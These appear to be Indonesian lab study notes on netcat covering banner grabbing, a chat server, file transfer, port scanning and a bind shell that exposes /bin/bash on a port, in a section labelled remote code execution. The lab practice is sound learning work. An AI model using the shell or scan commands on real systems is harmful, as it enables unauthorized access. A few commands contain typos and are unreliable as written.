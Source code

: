 ```yaml
---
id: Netcat
aliases: []
tags: []
---
```


## Description

### What?

- Netcat adalah sebuah command di linux untuk melakukan koneksi jaringan baik TCP/UDP

```bash
netcat -l -p 12241 -e /bin/bash -v
listening on [any] 12241 ...


```

### Who?

- Digunakan oleh admin, devs untuk networking task

### When?

- Dibuat pada 1996, dan masih digunakan sampai saat ini

### Where?

- Tersedia di linux, dan UNIX

### Why?

- Untuk memfasilitasi koneksi jaringan, dan tugas keamanan

### How?

- CLI, supporting TCP/UDP

## Practice

1. Buka terminal
2. Cek netcat sudah terinstall belum `netcat -h`
3. Jika belum bisa install `sudo apt install netcat -y`

### Banner Grabbing (OSINT)

Banner grabbing adalah proses mengambil banner dari suatu website. Biasanya untuk keamanan, kita akan memberikan informasi seminimal mungkin sehingga ketika ada yang melakukan banner grabbing hanya sedikit informasi yang dapat diambil.

Cara melakukan:

1. Verifikasi ip dari kali, ubuntu, dan pfsense
2. `nc 172.16.1.1 443 -v` , -v untuk verbose
3. `HEAD / HTTP/1.0)`
4. `GET /HTTP/1.1. | nc 172.16.1.1 80`, bisa langsung pakai command ini
5. `ctrl + c`

```bash
└─$ nc 172.16.1.1 443 -v
pfSense.home.arpa [172.16.1.1] 443 (https) open
HEAD /HTTP/1.0)
<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx</center>
</body>
</html>
```

```bash
└─$ GET / HTTP/1.1. | nc 172.16.1.1 80
HTTP/1.1 400 Bad Request
Server: nginx
Date: Sat, 22 Feb 2025 01:04:02 GMT
Content-Type: text/html
Content-Length: 150
Connection: close

<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx</center>
</body>
</html>
```

### Chat server: (UBUNTU)

1. Verfikasi IP
2. konfigurasi ubuntu computer sebagai listener dengan command

   ```bash
   nc -l -p 55555 -w 60 -v
   ```

   - -l: listen
   - -p: port
   - -w: wait time
   - -v: verbose

### Chat client: (KALI)

1. Verifikasi IP Ubuntu
2. `nc 172.16.1.100 55555 -v`
3. `hello world`
4. `Hello World again!`
5. `ctrl + c`

### Transfer file (Dead Drop)

1. Di server bisa buat file dulu, `touch netcat.txt`
2. Isi file dengan `vim netcat.txt`, ketik `hello world!`
3. Di server, `nc -v -w 60 -l -p 12241 < netcat.txt`
4. Di client, `nc -v -w 2 172.16.1.103 12241 > netcat.txt`
5. Di client, `nc -v -w 2 172.16.1.103 12241 >> netcat.txt`, untuk append

### cek history command

1. Cek history command `history`
2. Pilih dengan tanda `!` misal `!123`

### Remote Code Execution (RCE)

1. `ifconfig`
2. `whoami`
3. `pwd`
4. `date`
5. `ifconfig eth0 && whoami && pwd && date`
6. Server: `nc -l -p 12241 -e /bin/bash -v`
7. Client: `nc 172.16.1.103 12241 -v`

### Port Scanning

`nc 172.16.1.103 1-13000 -v`

### Help

`man netcat`
`netcat -h`

